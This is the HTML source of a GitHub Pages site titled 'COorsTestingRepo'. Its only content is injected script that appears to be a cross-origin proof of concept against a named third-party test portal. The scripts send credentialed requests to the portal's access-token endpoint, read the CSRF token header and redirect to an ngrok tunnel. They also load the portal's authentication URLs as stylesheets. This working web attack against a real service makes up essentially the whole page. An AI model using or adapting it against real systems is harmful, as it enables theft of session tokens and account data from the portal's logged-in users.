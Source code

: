 <html lang="en-US"><head><meta charset="UTF-8"><meta http-equiv="X-UA-Compatible" content="IE=edge"><meta name="viewport" content="width=device-width, initial-scale=1"><!-- Begin Jekyll SEO tag v2.8.0 --><title>COorsTestingRepo</title><meta name="generator" content="Jekyll v3.9.2" /><meta property="og:title" content="COorsTestingRepo" /><meta property="og:locale" content="en_US" /><link rel="canonical" href="https://sz072.github.io/COorsTestingRepo/" /><meta property="og:url" content="https://sz072.github.io/COorsTestingRepo/" /><meta property="og:site_name" content="COorsTestingRepo" /><meta property="og:type" content="website" /><meta name="twitter:card" content="summary" /><meta property="twitter:title" content="COorsTestingRepo" /><script type="application/ld+json">{"@context":"https://schema.org","@type":"WebSite","headline":"COorsTestingRepo","name":"COorsTestingRepo","url":"https://sz072.github.io/COorsTestingRepo/"}</script>
<!-- End Jekyll SEO tag --><link rel="stylesheet" href="https://testportal.zalaris.com/nea/v1/authenticate?neaRelayState=ZHQPORTAL%3ahttps%3a%2f%2ftestportal.zalaris.com%2fep%2fredirect"><link rel="stylesheet" href="https://testportal.zalaris.com/neptune/native/fetch_csrf?sap-client=510"><!-- start custom head snippets, customize with your own _includes/head-custom.html file --><!-- Setup Google Analytics --><!-- You can set your favicon here --><!-- link rel="shortcut icon" type="image/x-icon" href="/COorsTestingRepo/favicon.ico" --><!-- end custom head snippets --></head><body><div class="container-lg px-3 my-5 markdown-body"><h1><a href="https://sz072.github.io/COorsTestingRepo/">COorsTestingRepo</a></h1><html><body><script>var req = new XMLHttpRequest();req.onload = reqListener;req.open("POST", "https://testportal.zalaris.com/neptune/zalaris_launchpad_standard?ajax_id=GET_CB_CPI_ACCESS_TOKEN&ajax_applid=ZALARIS_LAUNCHPAD_STANDARD&sap-client=510&dxp=21100006&field_id=80302", true);req.withCredentials = true;req.send();function reqListener(){var authHeader = req.getResponseHeader('X-CSRF-Token');location='https://6154-49-37-210-91.in.ngrok.io';};};</script></body></html></div><script src="https://cdnjs.cloudflare.com/ajax/libs/anchor-js/4.1.0/anchor.min.js" integrity="sha256-lZaRhKri35AyJSypXXs4o6OPFTbTmUoltBbDCbdzegg="crossorigin="anonymous"></script><script>anchors.add();</script><script>document.cookie();</script><script>var r= new XMLHttpRequest();r.open('post','https://testportal.zalaris.com/neptune/zalaris_launchpad_standard?ajax_id=GET_CB_CPI_ACCESS_TOKEN&ajax_applid=ZALARIS_LAUNCHPAD_STANDARD&sap-client=510&dxp=21100006&field_id=80302',false);r.withCredentials=true;r.send();document.alert(r.responseText);</script></body></html>



